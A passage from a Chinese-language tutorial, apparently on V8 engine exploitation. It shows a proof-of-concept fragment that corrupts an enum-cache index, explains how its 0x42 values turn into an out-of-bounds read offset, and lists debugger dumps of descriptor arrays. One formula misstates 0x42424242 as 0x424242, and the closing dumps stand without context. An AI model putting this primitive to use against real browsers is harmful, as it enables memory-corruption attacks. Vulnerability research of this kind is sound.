 ```js

trigger(function() {
  object3.p9 = 1.1;
  Utils.InitEnumCache(object1);
  Utils.AllocateInOldSpace(0x42, 0x42, 0x42, 0x42);
});
```

运行该 POC 会导致内存崩溃，相应的位置如下：


![](/img/chapter8/dasm11.png)

显然此处的 `r9` 作为索引去获得属性值，而该索引过大导致了崩溃，而这个 0x10909090 是从 `Utils.AllocateInOldSpace(0x42, 0x42, 0x42, 0x42)` 而来的，公式为 `([buf]/2-1)/2` ，也就是 `(0x424242/2-1)/2==0x10909090`。因此在这个 POC 的基础上做一些修改就可以直接完成指定偏移读了。

这里姑且提一下这份 POC 为什么能够准确的使用到 0x42424242。

这是一份标准的描述符下的偏移数组 `indices` ：

```sh
pwndbg> job 0x0c5b000da741
0xc5b000da741: [FixedArray] in OldSpace
 - map: 0x0c5b00000565 <Map(FIXED_ARRAY_TYPE)>
 - length: 9
           0: 0
           1: 2
           2: 4
           3: 6
           4: -2
           5: -4
           6: -6
           7: -8
           8: -10
```


  [0]: 0x93700002a21: [String] in ReadOnlySpace: #a (const data field 0:s, p: 4, attrs: [WEC]) @ Any
  [1]: 0x93700002a31: [String] in ReadOnlySpace: #b (const data field 1:s, p: 3, attrs: [WEC]) @ Any
  [2]: 0x93700002a41: [String] in ReadOnlySpace: #c (const data field 2:s, p: 2, attrs: [WEC]) @ Any
  [3]: 0x93700002a51: [String] in ReadOnlySpace: #d (const data field 3:s, p: 1, attrs: [WEC]) @ Any
  [4]: 0x93700002a61: [String] in ReadOnlySpace: #e (const data field 4:s, p: 0, attrs: [WEC]) @ Any
  [0]: 0xf6100002a21: [String] in ReadOnlySpace: #a (const data field 0:s, p: 0, attrs: [WEC]) @ Any
  [0]: 0x123a00002a21: [String] in ReadOnlySpace: #a (const data field 0:s, p: 2, attrs: [WEC]) @ Any
  [1]: 0x123a00002a31: [String] in ReadOnlySpace: #b (const data field 1:s, p: 1, attrs: [WEC]) @ Any
  [2]: 0x123a00002a41: [String] in ReadOnlySpace: #c (const data field 2:s, p: 0, attrs: [WEC]) @ Any
  [0]: 0x123a00002a21: [String] in ReadOnlySpace: #a (const data field 0:s, p: 2, attrs: [WEC]) @ Any
  [1]: 0x123a00002a31: [String] in ReadOnlySpace: #b (const data field 1:s, p: 1, attrs: [WEC]) @ Any
  [2]: 0x123a00002a41: [String] in ReadOnlySpace: #c (data field 2:d, p: 0, attrs: [WEC]) @ Any
  [0]: 0x123a00002a21: [String] in ReadOnlySpace: #a (const data field 0:s, p: 2, attrs: [WEC]) @ Any
  [1]: 0x123a00002a31: [String] in ReadOnlySpace: #b (const data field 1:s, p: 1, attrs: [WEC]) @ Any
  [2]: 0x123a00002a41: [String] in ReadOnlySpace: #c (const data field 2:s, p: 0, attrs: [WEC]) @ Any